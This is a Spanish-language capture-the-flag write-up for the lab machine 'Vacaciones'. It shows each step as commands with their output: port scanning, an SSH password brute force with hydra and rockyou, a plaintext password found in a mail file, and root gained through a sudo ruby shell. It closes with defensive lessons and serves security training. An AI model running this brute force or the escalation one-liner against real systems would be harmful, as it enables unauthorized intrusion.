

# Máquina Vulnerable: Vacaciones

|                   | Detalle maquina original                        |
| ----------------- | ----------------------------------------------- |
| Autor             | [Romabri](https://github.com/romabri)          |
| Dificultad        | Muy Fácil                                       |
| Fecha de creación | 04/06/2024                                      |
| Fecha del writeup | 12/12/2025                                      |
| Maquina original  | vacaciones                                      |

Máquina CTF diseñada para practicar técnicas de pentesting básicas en un entorno controlado. Esta réplica implementa vulnerabilidades típicas de configuraciones inseguras que incluyen exposición de información sensible en código HTML, contraseñas débiles, movimiento lateral entre usuarios y permisos sudo mal configurados.

El objetivo es practicar metodologías de pentesting desde el reconocimiento inicial hasta la escalada de privilegios, utilizando herramientas estándar como nmap, gobuster, hydra y técnicas de explotación basadas en GTFOBins.

## Tabla de Contenidos

- [Explotación](#explotación)
  - [Vulnerabilidades Implementadas](#vulnerabilidades-implementadas)
- [Write-up Completo](#write-up-completo)
  - [Diagrama de Ataque](#diagrama-de-ataque)
  - [Paso 1: Reconocimiento - Escaneo de Puertos](#paso-1-reconocimiento---escaneo-de-puertos)
  - [Paso 2: Enumeración Web - Fuzzing de Directorios](#paso-2-enumeración-web---fuzzing-de-directorios)
  - [Paso 3: Análisis del Código Fuente HTML](#paso-3-análisis-del-código-fuente-html)
  - [Paso 4: Ataque de Fuerza Bruta SSH](#paso-4-ataque-de-fuerza-bruta-ssh)
  - [Paso 5: Acceso SSH como Usuario Camilo](#paso-5-acceso-ssh-como-usuario-camilo)
  - [Paso 6: Enumeración del Sistema](#paso-6-enumeración-del-sistema)
  - [Paso 7: Movimiento Lateral - Usuario Juan](#paso-7-movimiento-lateral---usuario-juan)
  - [Paso 8: Escalada de Privilegios con Ruby](#paso-8-escalada-de-privilegios-con-ruby)
- [Conclusión](#conclusión)

---

## Explotación

### Vulnerabilidades Implementadas

- **Exposición de Información en HTML**: Comentario HTML en el código fuente revela nombres de usuarios y pista sobre correo
- **Contraseña Débil SSH**: Password vulnerable a ataques de diccionario (rockyou.txt)
- **Información Sensible en Archivos**: Contraseña almacenada en texto plano en `/var/mail/camilo/correo.txt`
- **Configuración sudo Insegura**: Usuario juan puede ejecutar `/usr/bin/ruby` como root sin contraseña
- **Permisos Elevados Innecesarios**: Usuario regular con capacidad de ejecutar intérprete de código como root

---

## Write-up Completo

### Diagrama de Ataque



### Paso 1: Reconocimiento - Escaneo de Puertos

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ nmap -p- -sV 172.17.0.2
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-11 20:12 EST
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.02 seconds
```

**Resultado**: Se identifican dos puertos abiertos:
- **Puerto 80 (HTTP)**: Apache httpd 2.4.29
- **Puerto 22 (SSH)**: OpenSSH 7.6p1 Ubuntu 4ubuntu0.7

### Paso 2: Enumeración Web - Fuzzing de Directorios

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt -x php,html | grep "(Status: 200)"
/index.html           (Status: 200) [Size: 74]
```

**Resultado**: Se encuentra el archivo `index.html`

### Paso 3: Análisis del Código Fuente HTML

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ curl http://172.17.0.2
<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->
```

**Resultado**: Se descubre un comentario HTML que revela:
- Usuario `Juan` envía mensaje a usuario `Camilo`
- Pista sobre un correo importante dejado para Camilo

### Paso 4: Ataque de Fuerza Bruta SSH

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-11 20:14:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-12-11 20:14:23
```

**Resultado**: Credenciales descubiertas → `camilo:password1`

### Paso 5: Acceso SSH como Usuario Camilo

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ ssh camilo@172.17.0.2
camilo@172.17.0.2's password:
$ /bin/bash
camilo@65bcf5dfb821:~$
```

**Resultado**: Acceso exitoso como usuario `camilo`

### Paso 6: Enumeración del Sistema

```bash
camilo@65bcf5dfb821:~$ sudo -l
[sudo] password for camilo:
Sorry, user camilo may not run sudo on 65bcf5dfb821.
```

El usuario `camilo` no tiene permisos sudo. Continuamos con la enumeración:

```bash
camilo@65bcf5dfb821:~$ ls ../
camilo  juan  pedro
```

Se identifican tres usuarios en el sistema: `camilo`, `juan`, `pedro`

```bash
camilo@65bcf5dfb821:~$ find / -type f -iname "*.txt" 2>/dev/null
/var/mail/camilo/correo.txt
```

**Resultado**: Se encuentra archivo de correo para camilo

```bash
camilo@65bcf5dfb821:~$ cat /var/mail/camilo/correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

**Resultado**: Se obtiene la contraseña de juan: `2k84dicb`

### Paso 7: Movimiento Lateral - Usuario Juan

```bash
camilo@65bcf5dfb821:~$ su - juan
Password:
$ whoami
juan
$ /bin/bash
```

**Resultado**: Acceso exitoso como usuario `juan`

Verificamos permisos sudo:

```bash
juan@65bcf5dfb821:~$ sudo -l
Matching Defaults entries for juan on 65bcf5dfb821:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on 65bcf5dfb821:
    (ALL) NOPASSWD: /usr/bin/ruby
```

**Resultado**: El usuario juan puede ejecutar `/usr/bin/ruby` como root sin contraseña

### Paso 8: Escalada de Privilegios con Ruby

Consultando [GTFOBins](https://gtfobins.github.io/gtfobins/ruby/#sudo) para técnicas de escalada:

```bash
juan@65bcf5dfb821:~$ sudo ruby -e 'exec "/bin/sh"'
# whoami
root
```

**Resultado**: Escalada exitosa a root ✓

---

## Conclusión

Esta máquina demuestra vulnerabilidades comunes en entornos mal configurados:
- Exposición de información sensible en comentarios HTML
- Contraseñas débiles susceptibles a ataques de diccionario
- Almacenamiento de credenciales en texto plano
- Configuraciones sudo inseguras que permiten escalada de privilegios
- Movimiento lateral entre usuarios mediante información expuesta

**Lecciones aprendidas:**
- Nunca incluir información sensible en código fuente HTML (comentarios, metadatos, etc.)
- Usar contraseñas robustas y únicas para cada usuario
- Nunca almacenar contraseñas en texto plano
- Restringir permisos sudo a comandos específicos y seguros
- Implementar principio de mínimo privilegio
- Validar configuraciones de seguridad regularmente
- Proteger archivos que contengan información sensible con permisos adecuados
